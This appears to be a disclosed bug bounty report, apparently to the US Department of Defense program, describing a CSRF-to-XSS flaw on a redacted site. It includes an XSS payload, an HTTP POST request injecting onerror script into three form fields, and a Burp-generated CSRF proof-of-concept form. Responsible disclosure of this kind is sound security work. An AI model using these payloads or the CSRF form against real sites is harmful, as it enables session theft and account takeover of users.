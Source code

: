 # CSRF to Cross-site Scripting (XSS)

## Report Details
- **Report ID**: 1118501
- **URL**: https://hackerone.com/reports/1118501
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-05T21:08:14.065Z
- **Disclosed**: 2021-03-24T20:25:39.333Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
hello dear support 

I have found csrf  to XSS on█████████
my payload "><img src=x onerror=prompt``>;<video>

## Impact

Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker.

## System Host(s)
██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
http request
============
```
POST /███████ HTTP/1.1
Host: ████
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 229
Origin: https://█████████
Connection: close
Referer:████
████████

█████-building=%22%3E%3Cimg+src%3Dx+onerror%3Dalert(document.domain)%3E&██████████-classroom=%22%3E%3Cimg+src%3Dx+onerror%3Dalert(document.domain)%3E&█████-course=%22%3E%3Cimg+src%3Dx+onerror%3Dalert(document.domain)%3E
```

csrf poc
===========

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://████████/████" method="POST">
      <input type="hidden" name="████████&#45;building" value="&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="hidden" name="██████████&#45;classroom" value="&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="hidden" name="████&#45;course" value="&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;document&#46;domain&#41;&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

█████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
